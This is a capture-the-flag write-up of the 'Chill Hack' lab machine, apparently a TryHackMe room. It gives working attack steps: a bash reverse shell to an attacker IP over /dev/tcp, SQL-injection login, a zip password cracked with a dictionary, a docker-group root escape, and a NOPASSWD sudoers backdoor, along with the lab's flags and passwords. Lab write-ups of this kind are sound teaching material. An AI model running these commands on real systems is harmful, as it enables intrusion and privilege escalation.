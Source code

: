 # Chill Hack

* IP = 10.10.175.103

## Enumerating And Scanning:

* Nmap scan to discover open ports:
`nmap -sC -sV -vv $IP`
* **Nmap Scan Results:**
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* FTP Anonymous login is permitted i.e. Login to FTP server with `anonymous` username and no password is allowed.
* FTP has only one file:`note.txt`<br>
![Screenshot](./assets/2.png)<br>

* Contents of `note.txt`:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
* `anurodh` and `apaar` usernames are noted for later use.
* The website view of main page:<br>
![Screenshot](./assets/1.png)

* Used `gobuster` to scan to find any other hidden directories on the website:
* **Gobuster Scan Results:**
```
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
=====================================================
2022/07/30 19:12:47 Finished
=====================================================
```
* `/secret` directory of the website:<br>
![Screenshot](./assets/3.png)
* Basic commands like `ls` or `cat` can't be executed:<br>
![Screenshot](./assets/4.png)
* But, `id` command was executed successfully:<br>
![Screenshot](./assets/5.png)
* Searched for some bash reverse shell payloads from <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey</a>.
* But `bash -i >& /dev/tcp/10.4.50.128/7777 0>&1` can't be used.<br>
![Screenshot](./assets/4.png)
* Using `/bin/bash` instead of `bash` works.

## Exploitation/Gaining Access:

* Finally this payload worked properly:`/bin/bash -c '/bin/bash -i >& /dev/tcp/10.4.50.128/7777 0>&1'`, with a netcat listener:`nc -lnvp 7777`<br>
![Screenshot](./assets/6.png)
* Next, some basic enumeration in the home directory:<br>
![Screenshot](./assets/7.png)
* Sudo commands that can be run by `www-data` user:<br>
![Screenshot](./assets/8.png)
* Hence the following command can be used to run `.helpline.sh` as `apaar` user:`sudo -u apaar /home/apaar/.helpline.sh`. Now, since the above code directly passes the given input and runs the command without parsing, giving `/bin/bash` as input will spawn a shell with `apaar` user privileges.
![Screenshot](./assets/9.png)<br>
* The file `local.txt` in `apaar` user's home directory is the required user flag.<br>
![Screenshot](./assets/10.png)

## Post Exploitation

* First enumerate the running processes with `ps aux` and the running webservices/network services with:`netstat -anlp | grep LISTEN`:<br>
![Screenshot](./assets/11.png)
* The service running on port `9001` at localhost seemd strange, hence it was port forwarded via SSH.
* Generated a new ssh key-pair with `ssh-keygen` on local machine:<br>
![Screenshot](./assets/12.png)
* Copied the `id_rsa.pub` or the public key into the authorized_keys file inside `.ssh` directory of `/home/apaar`.
* Now SSH 'ed into the server with:`ssh -i id_rsa apaar@10.10.175.103 -L 9001:127.0.0.1:9001` using forwarded port.
* `-L` flag signifies the following:
```
Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
```
* In local machine, the process is found in the same port:<br>
![Screenshot](./assets/13.png)<br>
* Visited the running service on browser with `localhost:9001` which brings here:<br>
![Screenshot](./assets/14.png)
* This login page is vulnerable to basic SQL injection, hence logged in with:`admin' or 1=1 --`.
* Which brings here:<br>
![Screenshot](./assets/15.png)
* Next, downloaded the image file:<br>
![Screenshot](./downloads/download.jpg)<br>
* Using `steghide extract -sf download.jpg` a zip file can be extracted, which is infact password protected. Cracked the zipfile password with:`fcrackzip -D -u -p rockyou.txt backup.zip`, and the password was found as:`pass1word`.
* Significance of the flags:
```
-D -> dictionary style password search
-u -> decompresses the file while trying a password, evades out false positives
-p -> specify the password file
```
* Unzipping the zipfile reveals a source code written in php, which has a *base64* encoded password of `anurodh`:<br>
![Screenshot](./assets/16.png)
* Which can be decoded as:`!d0ntKn0wmYp@ssw0rd`.

## Privilege Escalation

* SSH into the server as `anurodh` and password as:`!d0ntKn0wmYp@ssw0rd`.
* The most initial enumeration reveals `anurodh` is in the `docker` group, which means anything from the filesystem can be mounted into the docker containers and run as root.
```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
* Checked if any docker images are already present with:`docker images`. There is an `alpine` image, which can be used.
* Easiest way to get the root flag is by mounting the whole filesystem into a docker container and navigate inside the `root` home directory by executing:`docker run --rm -it --privileged -v /:/mnt alpine`:<br>
![Screenshot](./assets/17.png)<br>
* The arguments signifies the following:
```
run -> runs the container
--rm -> removes previously present containers using same image
-it -> interactive shell, to get a shell inside the container
--privileged -> keep the privileges
-v -> specify the volume to be mounted, here / is mounted to /mnt
```
* The file named `proof.txt` inside the `/mnt/root` directory will contain the root flag.:<br>
![Screenshot](./assets/18.png)
* Another way of actually escalating privileges would be by modifying the `/etc/sudoers` file by adding the line:

```yaml
anurodh ALL=(ALL) NOPASSWD: ALL
```
* So that anyone can become root without authentication. To try this, exit out of the container and change privileges to root with: `sudo su`:<br>
![Screenshot](./assets/19.png)


## Questions/Tasks:

1. User Flag:

**Ans-{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

2. Root Flag:

**Ans-{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}**
